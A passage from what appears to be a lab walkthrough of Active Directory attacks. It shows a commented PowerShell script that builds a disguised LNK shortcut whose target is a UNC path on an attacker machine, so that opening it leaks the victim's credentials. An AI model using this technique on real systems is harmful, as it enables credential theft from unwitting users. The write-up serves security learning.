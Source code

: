 Second of all, LNK files can point to remote resources, prompting the system to authenticate and potentially exposing credentials to attackers.

I am going to go for the second way of abusing LNK files.

1. Create the shell object in powershell

```powershell
$objShell = New-Object -ComObject WScript.shell
# This line creates a new shell object
$lnk = $objShell.CreateShortcut("C:\test.lnk")
# This line creates a new shortcut file named `test.lnk` in the `C:\` directory.
$lnk.TargetPath = "\\192.168.64.37\@test.png"
# This line specifies the location that the shortcut points to. This png file is pointing to attack machine
$lnk.WindowStyle = 1
# This line sets the window should appear when the shortcut is activated. `1` value means that window should be opened normally.
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
# This line specifies the icon that should be used for the shortcut.
$lnk.Description = "Test"
# This line provides a textual description of the shortcut. This description appears when the user hovers over the shortcut.
$lnk.HotKey = "Ctrl+Alt+T"
# This line sets a keyboard shortcut for the LNK file. `Ctrl+Alt+T` will activate the shortcut.
$lnk.Save()
# This line saves the configured shortcut.
```

On the PUNISHER machine, I created a shortcut file using powershell.

![createdFile](../assets/img/AD2/Screenshot%202024-07-26%20at%2018.11.52.png)

